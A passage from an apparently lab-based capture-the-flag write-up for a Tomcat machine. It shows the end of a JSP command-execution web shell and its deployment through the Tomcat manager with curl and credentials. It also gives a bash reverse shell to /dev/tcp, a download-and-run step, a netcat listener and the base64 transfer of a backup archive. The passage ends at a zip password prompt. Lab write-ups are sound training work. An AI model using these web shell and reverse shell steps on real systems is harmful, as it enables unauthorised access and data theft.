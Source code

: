 ```java
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd);
         BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) {
            output += s;
         }
      }
      catch(IOException e) {
         e.printStackTrace();
      }
   }
%>

<pre>
<%=output %>
</pre>
```
now to upload the file we will need `curl`
```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/app -T cmd.war
OK - Deployed application at context path [/app]
```
now to find the uploaded file and to run commands go to this [http://10.10.10.194:8080/app/cmdjsp.jsp]
Run the command like `id` and if it doesn't work you have to change something.
To get reverse shell you need to create an reverse shell script
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.11/4444 0>&1'
```
Then start an `python3 simple server`
```python
python3 -m http.server 80
```
and with `curl` from machine take that `reverse shell script` put it to a file and then execute it.
```bash
curl 10.10.16.11:80/reverse.sh -o /dev/shm/reverse.sh
bash /dev/shm/reverse.sh
```
This will get you a connection on `netcat`
```bash
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.194] 46504
bash: cannot set terminal process group (985): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@tabby:/var/lib/tomcat9$
```
we find `.zip` file in `/var/www/html/files` so let's check it.
```bash
tomcat@tabby:/var/www/html/files$ ls
ls
16162020_backup.zip  archive  revoked_certs  statement
```
to forward it to machine without wasting time just `base64` encode the `.zip` file, copy it, paste it into some file in your machine, decode it and forward it to `backup.zip`
```bash
base64 -d backup.b64 > backup.zip

unzip backup.zip
Archive:  backup.zip
   creating: var/www/html/assets/
[backup.zip] var/www/html/favicon.ico password:
```